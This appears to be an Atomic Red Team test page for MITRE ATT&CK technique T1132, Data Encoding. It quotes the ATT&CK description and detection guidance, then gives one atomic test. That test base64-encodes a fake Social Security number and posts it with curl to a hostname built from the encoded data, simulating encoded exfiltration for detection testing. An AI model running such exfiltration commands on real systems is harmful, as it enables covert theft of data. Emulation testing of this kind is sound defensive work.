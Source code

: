 # T1132 - Data Encoding
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1132)
<blockquote>Command and control (C2) information is encoded using a standard data encoding system. Use of data encoding may be to adhere to existing protocol specifications and includes use of ASCII, Unicode, Base64,  MIME, UTF-8, or other binary-to-text and character encoding systems. (Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.

Detection: Analyze network data for uncommon data flows (e.g., a client sending significantly more data than it receives from a server). Processes utilizing the network that do not normally have network communication or have never been seen before are suspicious. Analyze packet contents to detect communications that do not follow the expected protocol behavior for the port that is being used. (Citation: University of Birmingham C2)

Platforms: Linux, macOS, Windows

Data Sources: Packet capture, Process use of network, Process Monitoring, Network protocol analysis

Permissions Required: User

Requires Network: Yes

Contributors: Itzik Kotler, SafeBreach</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|

#### Run it with `sh`!
```
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```
<br/>
